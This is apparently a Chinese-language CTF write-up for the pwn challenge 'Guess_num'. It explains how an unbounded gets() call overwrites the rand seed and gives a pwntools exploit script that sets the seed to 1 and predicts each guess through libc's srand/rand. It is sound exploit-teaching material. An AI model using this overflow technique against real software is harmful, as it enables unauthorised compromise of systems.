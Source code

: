 ```yaml
---
layout: post
title: Guess_num
categories: pwn
tags: [pwn]
description: 11
date: 2019-07-02
---
```

## Guess_num

题目不难，但是学到了个新姿势 **cdll.LoadLibrar** ，可以用它来加载dll或者libc。

### ida分析

![img](/assets/images/2019-7-2-Guess_num/guess_num_1.png)

名字v11和seed相差32(0x30-0x10)，而gets又没有限制，故可以将seed覆盖。

### Exp
```python
from pwn import *
from ctypes import *  
 
#p = remote('','')
p = process('./guess_num') 
elf = ELF('./guess_num')
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
 
payload = 'A'*32  
payload += p64(1)   #覆盖种子为1
p.recvuntil('name:')
p.sendline(payload)  
 
libc.srand(1)  #本地设置种子为一

for i in range(10):
        num = str(libc.rand()%6+1)
        p.recvuntil('number:')
        p.sendline(num)
 
p.interactive()

```
